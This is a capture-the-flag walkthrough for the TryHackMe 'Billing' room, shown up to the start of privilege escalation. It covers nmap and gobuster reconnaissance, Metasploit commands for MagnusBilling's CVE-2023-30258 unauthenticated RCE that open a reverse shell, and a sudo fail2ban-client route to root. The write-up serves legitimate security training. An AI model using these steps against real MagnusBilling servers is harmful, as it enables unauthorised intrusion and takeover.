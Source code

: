 # Billing CTF TryHackMe

## Step 1: Nmap Scan

I ran an nmap scan on the ip with this command `nmap -A <target-ip>` and yielded these results in return:


![Screenshot 2025-03-09 001847](https://github.com/user-attachments/assets/fda6dfc4-b482-43de-8b11-79465059d1ea)


From this scan we can see SSH is open. I also see that port 80 is running MagnusBilling and port 3306 is running MariaDB.

## Step 2: Enumerate Some More

After running the Nmap scan I ran gobuster to find any directories we may not know about using this command: `gobuster dir -u http://10.10.2.151 -w /usr/share/wordlists/dirb/common.txt`

Doing this revealed these directories: 

![Screenshot 2025-03-09 002404](https://github.com/user-attachments/assets/a2c0bb38-84a7-4bee-8dfe-ed69a4c77fb5)


## Step 3: Finding an exploit

Knowing that MagnusBilling was being used on here I searched for common exploits and found CVE-2023-30258. The first link of the google search "magnus billing exploits" brought me to this page -> 
https://www.rapid7.com/db/modules/exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258/

This was fantastic because it showed me how to create a reverse shell using Metasploit. Below will be the commands I used to start a reverse shell:

```
use exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258

set RHOSTS <target-ip>

set LHOSTS <attackers-ip>

exploit
```

The shell works as seen below:

![Screenshot 2025-03-09 003258](https://github.com/user-attachments/assets/1edfcea7-19d5-43b1-90be-df64805a43b2)

## Step 4: Finding Users.txt

This is probably the most simple part of the CTF as all you need to do is look around the system, I found users.txt in /home/magnus.

![Screenshot 2025-03-09 003456](https://github.com/user-attachments/assets/5bcfbfbd-87f8-4140-a756-a9a0b53adab4)

Don't just copy me, find it yourself. 😓

## Step 5: Priv Esc and finding the Root flag

Using `sudo -l` saves so much time when trying to figure how to get a privilige escalation 

If `sudo -l` didn't work for you like it did for me type `shell` into your meterpreter and it should be fixed.

Anyways, after using that command we can see that our user can run all commands with the fail2ban-client. So, we want to be able to have the fail2ban client read root.txt and store it in a location that
we can access as the user we currently are.

![Screenshot 2025-03-09 005105](https://github.com/user-attachments/assets/d013ab47-9b8e-4644-b134-c4621fbb5149)


